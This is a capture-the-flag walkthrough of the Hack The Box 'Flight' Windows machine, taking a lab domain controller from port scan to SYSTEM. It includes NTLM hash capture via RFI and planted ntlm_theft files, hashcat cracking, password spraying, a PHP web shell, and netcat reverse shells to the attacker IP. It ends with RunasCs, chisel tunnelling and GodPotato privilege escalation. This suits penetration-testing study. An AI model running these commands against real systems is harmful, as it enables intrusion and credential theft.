










# Before Starting 
```console
Me > 10.10.14.7
Target > 10.10.11.187
```
```bash
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: g0 Aviation
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-08-26 19:41:56Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49687/tcp open  msrpc         syn-ack Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m56s
| smb2-time:
|   date: 2024-08-26T19:42:47
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 32072/tcp): CLEAN (Timeout)
|   Check 2 (port 43415/tcp): CLEAN (Timeout)
|   Check 3 (port 31592/udp): CLEAN (Timeout)
|   Check 4 (port 44855/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

```bash
cme smb 10.10.11.187 -u 'toto' -p ''
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [-] flight.htb\toto: STATUS_LOGON_FAILURE
``` 
There isn't guest session, and after going on the site, there isn't something interesting, let's try to find a subdomain :

```bash
wfuzz -c -f sub-fighter -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://flight.htb' -H "Host: FUZZ.flight.htb" --hw 530
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://flight.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000624:   200        90 L     412 W      3996 Ch     "school"
```
Nice !

On the site we can find this :



But if we look closely at the url ```http://school.flight.htb/index.php?view=home.html```, we can think about a LFI, let's try : 



Ok, but let's try a RFI like that ```http://school.flight.htb/index.php?view=//10.10.14.7/toto``` 



Nice !!

Let's crack the hash (if we can)

```bash
hashcat --hash-type 5600 --attack-mode 0 hash.txt /usr/share/wordlists/rockyou.txt

SVC_APACHE::flight:1122334455667788:9076726df42efc8aca1192f963a74f11:0101000000000000807b007bc8f7da01280f4df12d7828aa00000000020008005a0047004600580001001e00570049004e002d0039005800560051005500450038004a0030003000490004003400570049004e002d0039005800560051005500450038004a003000300049002e005a004700460058002e004c004f00430041004c00030014005a004700460058002e004c004f00430041004c00050014005a004700460058002e004c004f00430041004c0007000800807b007bc8f7da0106000400020000000800300030000000000000000000000000300000bce30877bf7c37862a07285a438ccc89e8980e0b3466200c860005c01f27b5490a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0037000000000000000000:REDACTED
```
Ok nice, try creds on smb

```bash
cme smb 10.10.11.187 -u 'svc_apache' -p 'REDACTED'
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:REDACTED

cme smb 10.10.11.187 -u 'svc_apache' -p 'REDACTED' --shares
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:REDACTED
SMB         10.10.11.187    445    G0               [*] Enumerated shares
SMB         10.10.11.187    445    G0               Share           Permissions     Remark
SMB         10.10.11.187    445    G0               -----           -----------     ------
SMB         10.10.11.187    445    G0               ADMIN$                          Remote Admin
SMB         10.10.11.187    445    G0               C$                              Default share
SMB         10.10.11.187    445    G0               IPC$            READ            Remote IPC
SMB         10.10.11.187    445    G0               NETLOGON        READ            Logon server share
SMB         10.10.11.187    445    G0               Shared          READ
SMB         10.10.11.187    445    G0               SYSVOL          READ            Logon server share
SMB         10.10.11.187    445    G0               Users           READ
SMB         10.10.11.187    445    G0               Web             READ
```
Nothing interesting to read in the smb, let's spray the password

```bash
 cme smb 10.10.11.187 -u 'svc_apache' -p 'REDACTED' --users
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:REDACTED
SMB         10.10.11.187    445    G0               [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.11.187    445    G0               [+] Enumerated domain user(s)
SMB         10.10.11.187    445    G0               flight.htb\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.11.187    445    G0               flight.htb\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.11.187    445    G0               flight.htb\krbtgt                         Key Distribution Center Service Account
SMB         10.10.11.187    445    G0               flight.htb\S.Moon                         Junion Web Developer
SMB         10.10.11.187    445    G0               flight.htb\R.Cold                         HR Assistant
SMB         10.10.11.187    445    G0               flight.htb\G.Lors                         Sales manager
SMB         10.10.11.187    445    G0               flight.htb\L.Kein                         Penetration tester
SMB         10.10.11.187    445    G0               flight.htb\M.Gold                         Sysadmin
SMB         10.10.11.187    445    G0               flight.htb\C.Bum                          Senior Web Developer
SMB         10.10.11.187    445    G0               flight.htb\W.Walker                       Payroll officer
SMB         10.10.11.187    445    G0               flight.htb\I.Francis                      Nobody knows why he's here
SMB         10.10.11.187    445    G0               flight.htb\D.Truff                        Project Manager
SMB         10.10.11.187    445    G0               flight.htb\V.Stevens                      Secretary
SMB         10.10.11.187    445    G0               flight.htb\svc_apache                     Service Apache web
SMB         10.10.11.187    445    G0               flight.htb\O.Possum                       Helpdesk

cme smb 10.10.11.187 -u users.txt -p 'REDACTED' --continue-on-success |grep -I '[+]'
SMB         10.10.11.187    445    G0               [+] flight.htb\S.Moon:REDACTED
```
```bash
cme smb 10.10.11.187 -u S.Moon -p 'REDACTED' --shares
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\S.Moon:REDACTED
SMB         10.10.11.187    445    G0               [*] Enumerated shares
SMB         10.10.11.187    445    G0               Share           Permissions     Remark
SMB         10.10.11.187    445    G0               -----           -----------     ------
SMB         10.10.11.187    445    G0               ADMIN$                          Remote Admin
SMB         10.10.11.187    445    G0               C$                              Default share
SMB         10.10.11.187    445    G0               IPC$            READ            Remote IPC
SMB         10.10.11.187    445    G0               NETLOGON        READ            Logon server share
SMB         10.10.11.187    445    G0               Shared          READ,WRITE
SMB         10.10.11.187    445    G0               SYSVOL          READ            Logon server share
SMB         10.10.11.187    445    G0               Users           READ
SMB         10.10.11.187    445    G0               Web             READ
```
We can try to put some file in, like .lnk, .scf, .url etc in order to steal a hash if a user clicks on our files

I'm gonna use [https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft) for this :

```bash
Responder -I tun0

smb: \> mput *
NT_STATUS_ACCESS_DENIED opening remote file \toto-(remotetemplate).docx
putting file toto-(stylesheet).xml as \toto-(stylesheet).xml (2.2 kb/s) (average 2.2 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \toto.lnk
putting file toto.application as \toto.application (21.5 kb/s) (average 12.1 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \toto.pdf
NT_STATUS_ACCESS_DENIED opening remote file \toto.scf
NT_STATUS_ACCESS_DENIED opening remote file \toto-(icon).url
NT_STATUS_ACCESS_DENIED opening remote file \toto.asx
putting file desktop.ini as \desktop.ini (0.6 kb/s) (average 8.3 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \toto-(url).url
putting file toto.jnlp as \toto.jnlp (2.6 kb/s) (average 6.9 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \toto.wax
NT_STATUS_ACCESS_DENIED opening remote file \toto.rtf
NT_STATUS_ACCESS_DENIED opening remote file \toto-(includepicture).docx
NT_STATUS_ACCESS_DENIED opening remote file \toto-(frameset).docx
NT_STATUS_ACCESS_DENIED opening remote file \toto-(externalcell).xlsx
putting file toto-(fulldocx).xml as \toto-(fulldocx).xml (537.0 kb/s) (average 172.3 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \Autorun.inf
NT_STATUS_ACCESS_DENIED opening remote file \toto.htm
NT_STATUS_ACCESS_DENIED opening remote file \zoom-attack-instructions.txt
NT_STATUS_ACCESS_DENIED opening remote file \toto.m3u
```


Nice !!

Try to crack the hash

```bash
hashcat --hash-type 5600 --attack-mode 0 hash.txt /usr/share/wordlists/rockyou.txt

C.BUM::flight.htb:1122334455667788:4c8d051713754681dcba57b94f23fd5c:010100000000000000b37066c9f7da01b31038f68ce492420000000002000800420032004400480001001e00570049004e002d0034004b00300045004c00420039003400380032004b0004003400570049004e002d0034004b00300045004c00420039003400380032004b002e0042003200440048002e004c004f00430041004c000300140042003200440048002e004c004f00430041004c000500140042003200440048002e004c004f00430041004c000700080000b37066c9f7da0106000400020000000800300030000000000000000000000000300000bce30877bf7c37862a07285a438ccc89e8980e0b3466200c860005c01f27b5490a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0037000000000000000000:REDACTED
```
Nice, now try creds :

```bash
cme smb 10.10.11.187 -u C.Bum -p 'REDACTED' --shares
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\C.Bum:REDACTED
SMB         10.10.11.187    445    G0               [*] Enumerated shares
SMB         10.10.11.187    445    G0               Share           Permissions     Remark
SMB         10.10.11.187    445    G0               -----           -----------     ------
SMB         10.10.11.187    445    G0               ADMIN$                          Remote Admin
SMB         10.10.11.187    445    G0               C$                              Default share
SMB         10.10.11.187    445    G0               IPC$            READ            Remote IPC
SMB         10.10.11.187    445    G0               NETLOGON        READ            Logon server share
SMB         10.10.11.187    445    G0               Shared          READ,WRITE
SMB         10.10.11.187    445    G0               SYSVOL          READ            Logon server share
SMB         10.10.11.187    445    G0               Users           READ
SMB         10.10.11.187    445    G0               Web             READ,WRITE
```
Ok so put a shell.php in ```Web\flight.htb``` :

```php
<?php system($_REQUEST['cmd']); ?>
```


Now we can upload a .exe and execute him :

```console
http://10.10.11.187/zz.php?cmd=nc.exe -e cmd.exe 10.10.14.7 1234
```


Now upload RunasCs.exe on the machine to get a shell as C.Bum

```powershell
PS C:\temp> ./runas.exe c.bum REDACTED 'C:\temp\nc.exe -e cmd.exe 10.10.14.7 9001'
```


After some enumeration we can find this :

```powershell
C:\inetpub\development

netstat -ano

TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4
``` 
So we gonna forward this port, there is maybe a development site

```bash
# on local machine
chisel server -p 8001 --reverse
# on target machine
./chisel64.exe client 10.10.14.7:8001 R:8000:127.0.0.1:8000
```


Ok nice, let's see if we can write in ```C:\inetpub\development``` to put a reverse shell

```powershell
PS C:\inetpub> icacls development
icacls development
development flight\C.Bum:(OI)(CI)(W)
            NT SERVICE\TrustedInstaller:(I)(F)
            NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
            NT AUTHORITY\SYSTEM:(I)(F)
            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
            BUILTIN\Administrators:(I)(F)
            BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
            BUILTIN\Users:(I)(RX)
            BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
            CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```
Ok nice, let's use this [cmd.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx) and upload him in ```C:\inetpub\development```

Use the nc.exe that we had uploaded to have a shell as ```defaultapppoll``` who is a user with ```SeImpersonatePrivilege``` enabled by default therefore we just need to run a potato to have a shell as NT AUTHORITY SYSTEM



Nice !!

Now run GodPotato like that :

```powershell
PS C:\temp> ./GodPotato-NET4.exe -cmd "C:\temp\nc.exe -e cmd.exe 10.10.14.7 5555"
```


Nice !!

If you have any questions, you can dm me on [instagram](https://instagram.com/eliott.la) or on discord at : 'ethicxz.'


